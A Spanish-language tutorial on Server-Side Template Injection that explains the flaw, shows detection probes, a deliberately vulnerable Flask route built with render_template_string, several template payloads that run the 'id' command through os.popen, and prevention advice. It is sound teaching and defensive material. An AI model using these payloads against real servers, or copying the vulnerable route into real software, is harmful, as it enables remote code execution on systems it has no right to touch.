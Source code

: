 # Server-Side Template Injection (SSTI)

## ¿Qué es SSTI?

SSTI (Server-Side Template Injection) es una vulnerabilidad que ocurre cuando una aplicación web **interpreta y ejecuta contenido malicioso dentro de un motor de plantillas del lado del servidor**.

Esto puede permitir a un atacante:

- Acceder a variables del sistema.
- Ejecutar comandos del sistema operativo.
- Escalar privilegios si el motor lo permite.

---

## ¿Por qué ocurre?

En muchos frameworks web, se usan motores de plantillas para generar HTML dinámico (como Jinja2, Twig, EJS, etc.). Si una aplicación introduce datos del usuario directamente en estas plantillas sin validación, un atacante puede inyectar código en ellas.

---

## Ejemplo práctico (básico de testeo)

Supongamos que tenemos un campo de búsqueda que devuelve el siguiente HTML:

```html
<h2>Resultados para: {{ búsqueda }}</h2>
````

Si se inyecta lo siguiente en el campo de búsqueda:

```txt
${7*7}
```

```txt
{{7*7}}
```

Y el resultado devuelto es:

```
Resultados para: 49
```

Entonces, es muy probable que el motor esté **evaluando expresiones**, lo que indica una **posible SSTI**.

Este comportamiento indica que estamos ante un motor vulnerable, por ejemplo, `Jinja2` en Flask (Python).

---

## Ejemplo más realista

### Supuesto escenario en Flask (Python) con Jinja2

Código del servidor (vulnerable):

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route("/perfil")
def perfil():
    nombre = request.args.get("nombre", "Invitado")
    plantilla = f"<h1>Hola, {nombre}</h1>"
    return render_template_string(plantilla)
```

Un atacante accede a:

```
http://example.com/perfil?nombre={{7*7}}
```

Y obtiene:

```
Hola, 49
```

Lo que confirma la **vulnerabilidad SSTI**. Desde aquí, el atacante puede ir más allá probando payloads como:

```txt
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Esto puede conducir a ejecución de código en el servidor dependiendo del entorno.

```txt
${self.module.cache.util.os.popen("id").read()}
```

```txt
{{self.module.cache.util.os.popen("id").read()}}
```

---

## Medidas de prevención

* No renderizar datos del usuario directamente con `render_template_string()` o plantillas sin sanitizar.
* Usar funciones de escape y autoescaping (según el motor).
* Validar y sanear toda entrada del usuario.
* Utilizar linters y escáneres de seguridad para detectar SSTI.

---

## Recursos recomendados

* [PayloadsAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
* [PortSwigger Web Security Academy - SSTI](https://portswigger.net/web-security/server-side-template-injection)

---
